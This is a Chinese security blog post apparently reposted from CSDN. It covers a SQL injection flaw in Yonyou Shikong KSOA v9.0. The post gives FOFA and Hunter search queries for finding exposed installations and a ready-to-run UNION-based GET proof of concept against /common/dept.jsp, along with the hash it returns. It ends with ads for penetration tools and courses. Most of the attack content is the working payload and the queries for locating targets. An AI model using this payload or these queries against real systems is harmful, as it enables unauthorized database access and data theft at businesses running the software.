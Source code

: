 # 原创
：  注入之漏洞

# 注入之漏洞

**目录**

[0x01 漏洞介绍](#0x01%20%E6%BC%8F%E6%B4%9E%E4%BB%8B%E7%BB%8D)

[0x02 影响版本](#0x02%20%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)

[0x03 语法特征](#0x03%20%E8%AF%AD%E6%B3%95%E7%89%B9%E5%BE%81)

[0x04 漏洞复现](#0x04%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)

---


> 
如果文章对你有帮助，欢迎关注、点赞、收藏一键三连支持以下哦！<br/> 想要一起交流学习的小伙伴可以加zkaq222（备注CSDN，不备注通不过哦）进入学习，共同学习进步


## **0x01 漏洞介绍**

<br/> KSOA可以通过不同产品的组合，帮助流通领域企业实现“交易自动化、管理信息化、决策智能化、商务电子化”的目标，满足企业决策层、管理层、操作层不用应用者的需求。用友时空 KSOA 软件存在存在sql注入漏洞，可利用该漏洞获取系统敏感信息

## <br/>**0x02 影响版本**

<br/>`用友时空KSOA v9.0`

## <br/>**0x03 语法特征**
1. `hunter: app.name="用友时空 KSOA"`1. `FOFA: title="企业信息系统门户"`
## **0x04 漏洞复现**

<br/> 打开页面<br/>  

<br/> POC(GET)

> 
`url+/common/dept.jsp?deptid=1' UNION ALL SELECT 60%2Csys.fn_sqlvarbasetostr(HASHBYTES('MD5'%2C'1234'))--`


POC内的1234可自定义内容<br/> 直接访问可得<br/>  

<br/> 解密81dc9bdb52d04dc20036dbd8313ed055(MD5值)

还没看够？可以扫码关注呦<img alt="" height="567" src="https://img-blog.csdnimg.cn/fba8d9d932ed433ab42b6e6b14f3d9a3.jpeg" width="1015"/>

渗透工具

 <img alt="" height="509" src="https://img-blog.csdnimg.cn/62978eae5e214c0ab690ed37cee01a14.png" width="857"/>

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

 <img alt="" height="481" src="https://img-blog.csdnimg.cn/a191a5996fe44566ac62f507134812b0.png" width="694"/>

<img alt="" height="77" src="https://img-blog.csdnimg.cn/c941246e68214e3e8114b48ed3750a10.png" width="665"/><img alt="" height="196" src="https://img-blog.csdnimg.cn/2f7fccf6a6dc4141b00bcbfb18e1448d.png" width="691"/> 
